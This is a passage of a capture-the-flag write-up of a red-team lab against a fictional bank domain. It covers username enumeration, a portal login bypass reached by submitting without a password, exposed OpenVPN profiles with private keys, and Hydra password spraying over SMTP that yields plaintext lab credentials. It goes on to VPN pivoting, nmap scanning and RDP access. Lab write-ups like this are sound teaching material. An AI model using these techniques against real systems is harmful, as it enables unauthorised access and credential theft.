<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-15-figure-01.png"></a></figure>

The portal presented a username and password form.

I considered the supplied password list, but first checked what the login responses revealed about usernames.

I tried formats such as <code>roy_sims</code> and <code>roy.sims</code>, but received the same response for both.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-15-figure-02.png"></a></figure>

The image filenames suggested <code>firstname.lastname</code>, and the contact page gave me <code>corp.thereserve.loc</code>. I used those to build the account list.

</section>

<!-- PDF page 16 -->
<section id="pdf-page-16" class="pdf-source-section" data-pdf-page="16" aria-label="Source page 16">

While entering an email address, I submitted the form before entering a password. The portal let me through.

<figure style="width: 54.28%"></figure>

The configuration form also accepted arbitrary values. I generated a profile to try with OpenVPN.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-16-figure-02.png"></a></figure>
</section>

<!-- PDF page 17 -->
<section id="pdf-page-17" class="pdf-source-section" data-pdf-page="17" aria-label="Source page 17">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-17-figure-01.png"></a></figure>

The portal generated an OpenVPN profile for the submitted identity.

The generated profile included an unencrypted private key, even though I had reached the form without entering a password.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-17-figure-02.png"></a></figure>
</section>

<!-- PDF page 18 -->
<section id="pdf-page-18" class="pdf-source-section" data-pdf-page="18" aria-label="Source page 18">

The earlier directory scan had also found <code>/vpn</code> on this host.

<figure style="width: 94.84%"><a href="/assets/img/posts/red-team-capstone/page-18-figure-01.png"></a></figure>

The listing exposed another <code>.ovpn</code> profile containing a client certificate, its private key, and a <code>tls-auth</code> shared key.

<ul><li>Client certificate naming the CA <code>ChangeMe</code></li><li>Unencrypted client private key</li><li>tls-auth key</li></ul>

Before testing the profile, I returned to the supplied password list to look for corporate credentials.

<figure style="width: 75.52%"></figure>
</section>

<!-- PDF page 19 -->
<section id="pdf-page-19" class="pdf-source-section" data-pdf-page="19" aria-label="Source page 19">
<h2 id="credential-testing">Corporate Credential Testing</h2>

I used a short Python script to generate password candidates from the supplied list and permitted special characters.

<figure style="width: 80.97%"><a href="/assets/img/posts/red-team-capstone/page-19-figure-01.png"></a></figure>

I built a username list using <code>firstname.lastname</code> and <code>corp.thereserve.loc</code>.

The mail host at 10.200.40.11 exposed SMTP authentication, providing a way to test these lab accounts.

I used Hydra for a dictionary-based credential test with the generated candidates.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-19-figure-02.png"></a></figure>

The output reported successful credentials for Laura Wood and Mohammad Ahmed, both listed as corporate customer investment managers.

Lab account: <code>laura.wood@corp.thereserve.loc</code> — password: <code>Password1@</code> Lab account: <code>mohammad.ahmed@corp.thereserve.loc</code> — password: <code>Password1!</code>

I then checked the corresponding mailboxes for further clues.

</section>

<!-- PDF page 20 -->
<section id="pdf-page-20" class="pdf-source-section" data-pdf-page="20" aria-label="Source page 20">

Laura's mailbox check:

<figure style="width: 46.31%"><a href="/assets/img/posts/red-team-capstone/page-20-figure-01.png"></a></figure>

Mohammad's mailbox check:

<figure style="width: 49.71%"><a href="/assets/img/posts/red-team-capstone/page-20-figure-02.png"></a></figure>

Neither mailbox returned messages in these checks. I retained the credentials for subsequent host-access tests.

<figure style="width: 49.26%"></figure>

Next, I tested the exposed OpenVPN profile.

</section>

<!-- PDF page 21 -->
<section id="pdf-page-21" class="pdf-source-section" data-pdf-page="21" aria-label="Source page 21">
<h2 id="corporate-vpn">Connecting to the Corporate VPN</h2>

I downloaded the profile from <code>http://10.200.40.12/vpn/corpUsername.ovpn</code>.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-21-figure-01.png"></a></figure>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-21-figure-02.png"></a></figure>

The profile's <code>remote</code> entry still contained the placeholder <code>10.200.X.X</code>. I changed it to 10.200.40.12, kept the existing port and protocol, and reconnected.

<figure style="width: 40.71%"><a href="/assets/img/posts/red-team-capstone/page-21-figure-03.png"></a></figure>
</section>

<!-- PDF page 22 -->
<section id="pdf-page-22" class="pdf-source-section" data-pdf-page="22" aria-label="Source page 22">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-22-figure-01.png"></a></figure>

OpenVPN created a second tunnel interface, <code>tun1</code>. The resulting routing output showed paths to the corporate workstations.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-22-figure-02.png"></a></figure>

The relevant target routes were 10.200.40.21 and 10.200.40.22. The <code>12.100.1.x</code> addresses belonged to the VPN tunnel. My Kali tunnel address changed between connections, so I needed to check it before transferring files. The <a href="https://openvpn.net/community-docs/community-articles/openvpn-2-6-manual/">OpenVPN manual</a> explains tunnel addressing, routes, and the remote endpoint.

</section>

<!-- PDF page 23 -->
<section id="pdf-page-23" class="pdf-source-section" data-pdf-page="23" aria-label="Source page 23">

The initial host-discovery probes received no response from .21, so I scanned it with <code>-Pn</code> to skip host discovery.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-23-figure-01.png"></a></figure>
</section>

<!-- PDF page 24 -->
<section id="pdf-page-24" class="pdf-source-section" data-pdf-page="24" aria-label="Source page 24">

Scan results for 10.200.40.22:

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-24-figure-01.png"></a></figure>

Two findings stood out:

<ul><li><strong>RDP</strong> (3389) - Available for Remote Desktop connections.</li><li><strong>SMB signing:</strong> the scan reported signing enabled but not required. I noted this as a possible lead for relay attacks. See <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-signing-overview">Microsoft's SMB signing overview</a>.</li></ul>
</section>

<!-- PDF page 25 -->
<section id="pdf-page-25" class="pdf-source-section" data-pdf-page="25" aria-label="Source page 25">
<h2 id="workstation-access">Workstation Access and Flag Submission</h2>
<figure style="width: 74.78%"></figure>

I tested Laura's corporate credentials over RDP against WRK1 at 10.200.40.21.

The RDP session opened successfully.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-25-figure-02.png"></a></figure>
</section>

<!-- PDF page 26 -->
<section id="pdf-page-26" class="pdf-source-section" data-pdf-page="26" aria-label="Source page 26">

I initially looked for a flag file on the workstation, then realised the room used e-Citizen to validate evidence.

For the first flag, I supplied the hostname WRK1 and wrote the portal-issued UID to <code>C:\Windows\Temp\n0debranch.txt</code>. The portal checked the evidence and emailed the flag. The UID shown below is a placeholder; each submission must use the value and location requested by the portal.

I followed the portal's individual instructions for flags 2 and 3 as well. At this point, I still had the Active Directory environment to work through.

